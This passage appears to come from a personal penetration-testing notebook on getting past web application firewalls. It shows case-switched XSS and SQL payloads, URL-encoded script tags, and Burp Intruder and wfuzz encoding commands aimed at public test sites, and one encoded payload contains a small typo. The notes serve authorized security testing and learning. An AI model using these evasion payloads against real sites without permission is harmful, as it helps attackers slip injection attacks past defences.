 Wordlist
```json
~/tools/SecLists-2023.2Fuzzing/Metacharacters.fuzzdb.txt
```

#### Case Switching 

```json
<sCriPt>alert('supervuln')</scrIpT>
SeLeCT * RoM all_tables
sELecT @@vErSion
```
#### Encoding 

When encoding, focus on the characters that may be blocked, such as
these:
```json
< > ( ) [ ] { } ; ' / \ |
```

You could either encode part of a payload

```json
%3cscript%3ealert %28%27supervuln%27%28%3c%2fscript %3e
%3c%73%63%72%69%70%74%3ealert('supervuln')%3c%2f%73%63%72%69%70%74%3e
```
#### Automation w/Burp Intruder & Wfuzz

-  *Intruder* -> *Payloads*, **Payload Processing Option** allows you to add rules that Burp will apply to each payload before it is sent.

- Let's say we can bypass WAF by The following rule , we can apply it then start fuzzing for passwords or whatso

- Rules are applied from **TOP** to **BOTTOM** , in this example , suffix and prefix are added after encoding so they are not encoded.
![[Capture d’écran 2023-08-01 004051.png]]

- `Wfuzz` [Usage](https://wfuzz.readthedocs.io/en/latest/user/advanced.html#iterators-combining-payloads)

- List encoding methods:
```js
wfuzz -e encoders
```

- Encode payload before it's sent
```js
wfuzz -z file,wordlist/general/common.txt,md5 http://testphp.vulnweb.com/FUZZ
```
- Multiple Encoders
```js
wfuzz -z list,1-2-3,md5-sha1-none http://webscantest.com/FUZZ
```

### Testing Rate Limits
